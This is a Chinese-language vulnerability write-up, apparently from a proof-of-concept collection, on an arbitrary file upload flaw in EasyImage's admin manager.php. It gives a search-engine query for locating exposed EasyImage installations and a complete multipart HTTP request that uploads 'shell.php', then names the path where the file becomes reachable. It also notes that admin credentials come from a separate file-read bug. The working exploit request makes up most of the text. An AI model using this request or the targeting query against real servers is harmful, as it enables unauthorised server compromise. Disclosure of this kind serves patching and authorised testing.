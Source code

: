 # EasyImage manager.php 后台任意文件上传漏洞

## 漏洞描述

EasyImage manager.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件到服务器获取服务器权限

## 漏洞影响

```
EasyImage
```

## 网络测绘

```
app="EasyImage-简单图床"
```

## 漏洞复现

主页面

![image-20230417094210473](images/image-20230417094210473.png)

登陆后台后发送POC (通过任意文件读取获取账号密码)

```
POST /admin/manager.php?p= HTTP/1.1
Host: 
Accept: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: no-cache
Content-Length: 1622
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEUCF9Yq83AkaO6sv
Cookie: Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680341989; auth=a%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22tossone%22%3Bi%3A1%3Bs%3A32%3A%22590368bca375c2f8fe93df7d253481e8%22%3B%7D; Hm_lpvt_c790ac2bdc2f385757ecd0183206108d=1680342144; filemanager=sdeemhj3b9aeoretftrlijjh25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36

------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzuuid"

7e4fad9a-3545-4ed6-b655-b3e3a6b2978c
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkindex"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalfilesize"

583
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunksize"

10000000
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalchunkcount"

1
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkbyteoffset"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="p"


------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

234

------WebKitFormBoundaryEUCF9Yq83AkaO6sv--
```

![image-20230417094255974](images/image-20230417094255974.png)

上传访问地址为

```
/i/shell.php
```